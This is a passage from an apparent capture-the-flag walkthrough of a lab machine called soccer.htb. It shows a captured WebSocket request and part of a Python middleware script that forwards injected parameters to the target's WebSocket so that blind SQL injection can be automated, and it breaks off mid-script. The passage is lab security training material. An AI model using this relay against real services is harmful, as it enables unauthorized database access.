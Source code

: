 **Request Headers**
```http
GET / HTTP/1.0
Host: soc-player.soccer.htb:9091
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Sec-WebSocket-Version: 13
Origin: http://soc-player.soccer.htb
Sec-WebSocket-Extensions: permessage-deflate
Sec-WebSocket-Key: mcOpNlaKDJoXjG4buopqeQ==
Connection: keep-alive, Upgrade
Cookie: connect.sid=s%3ATtgCI2I1Ktr8efWAZeZYs3QraQ5hJR3V.3%2Fc3oeNjzabA2OGdmy%2BEOUM7I1AjcsrAeTEa0eP%2BRWU
Pragma: no-cache
Cache-Control: no-cache
Upgrade: websocket
```

Since there is nothing else that caught my eye I digged around and found out that we probably could try to find a blind sql injection like described on [Blind SQLI over Websocket](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

### Blind SQLI

**WS MIddleware Script**  
```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091/"

def send_ws(payload):
        ws = create_connection(ws_server)
        # If the server returns a response on connect, use below line
        #resp = ws.recv() # If server returns something like a token on connect you can find and extract from here

        # For our case, format the payload in JSON
        message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
        data = '{"id":"%s"}' % message

        ws.send(data)
        resp = ws.recv()
        ws.close()

        if resp:
                return resp
        else:
                return ''

def middleware_server(host_port,content_type="text/plain"):

        class CustomHandler(SimpleHTTPRequestHandler):
                def do_GET(self) -> None:
                        self.send_response(200)
                        try:
                                payload = urlparse(self.path).query.split('=',1)[1]
                        except IndexError:
                                payload = False

```